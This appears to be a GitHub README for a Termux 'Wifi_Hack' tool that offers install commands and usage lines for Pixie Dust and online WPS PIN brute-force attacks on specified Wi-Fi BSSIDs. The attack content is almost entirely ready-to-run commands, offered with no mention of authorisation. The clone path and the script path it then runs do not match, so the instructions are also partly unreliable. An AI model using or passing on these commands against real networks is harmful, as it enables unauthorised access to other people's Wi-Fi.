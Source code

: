 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/5cPyw37/IMG-20240219-WA0007.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade

$ pkg install -y root-repo

$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone https://github.com/Remixtj012/wps.wifi

$ sudo python Naiyem_WiFi_Hack/Muhammad_Naiyem.py -i wlan0 -K
```

#### Example : `sudo python Naiyem_WiFi_Hack/Muhammad_Naiyem.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Muhammad_Naiyem.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Muhammad_Naiyem.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Muhammad_Naiyem.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
